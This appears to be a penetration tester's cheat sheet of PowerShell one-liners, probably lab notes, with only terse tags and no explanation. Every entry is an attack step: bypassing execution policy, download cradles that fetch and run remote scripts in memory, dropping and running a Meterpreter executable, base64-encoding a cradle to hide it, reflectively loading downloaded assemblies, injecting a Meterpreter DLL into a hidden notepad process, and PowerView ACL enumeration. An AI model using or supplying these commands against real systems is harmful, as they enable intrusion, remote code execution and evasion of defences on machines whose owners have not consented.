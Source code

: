 ## Oneliners - ps1


### Powershell

Open powershell with bypass
#bypass #ps1
```cmd
powershell -exec bypass
```

#ps1 #runner #cradle
Download cradle in memory:
```powershell
(New-Object System.Net.WebClient).DownloadString("http://192.168.49.155/run.txt") | IEX
```

#ps1 #runner #cradle #dropper #exe
```powershell
powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.49.186/met64.exe', 'C:\Windows\Tasks\met64.exe'); C:\Windows\Tasks\met64.exe
```

#ps1 #encoding #cradle
Encode download cradle:
```powershell
$text = "<download cradle>"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($text)
$EncodedText = [Convert]::ToBase64String($bytes)
$EncodedText
# then to execute use powershell -enc <encoded_text>
powershell -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQAOQAuADEANQA1AC8AcgB1AG4ALgB0AHgAdAAiACkAIAB8ACAASQBFAFgA
```

#ps1 #encoding #hex #assembly
```powershell
$assemblyFile = "<path_to_assembly>"
$stringBuilder = New-Object -Type System.Text.StringBuilder
$stringBuilder.Append("0x")
$fileStream = [IO.File]::OpenRead($assemblyFile)
while (($byte = $fileStream.ReadByte()) -gt -1) {
	$stringBuilder.Append($byte.ToString("X2")) | Out-Null
}
$hexDll = $stringBuilder.ToString() -join ""
$hexDll | Out-File C:\Users\Administrator\Desktop\hex.txt
```

^6217c2
#ps1 #reflection #runner 
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.49.155/simple-runner.exe')
# If your class and method is public
$assem = [System.Reflection.Assembly]::Load($data)
[shellcode_runner_simple.Program]::Main("".Split())
```

#ps1 #reflection #runner #dll #managed #dll-managed
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.49.73/ClassRunner.dll')

[System.Reflection.Assembly]::Load($data).GetType("ClassRunner.Class1").GetMethod("runner").Invoke(0, $null)
```

#ps1 #injection #reflective-injection #remote-injection #runner #dll #unmanaged #dll-unmanaged #msfvenom
```powershell
Start-Process "C:\Windows\system32\notepad.exe" -WindowStyle Hidden
$bytes = (New-Object System.Net.WebClient).DownloadData("http://192.168.49.66/met.dll")
$procid = (Get-Process -Name notepad).Id[0]

IEX (New-Object System.Net.WebClient).DownloadString("http://192.168.49.66/Invoke-ReflectivePEInjection.ps1")

Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```

#powerview #enum #dacl #resolve-sid ^d8fba8
```powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```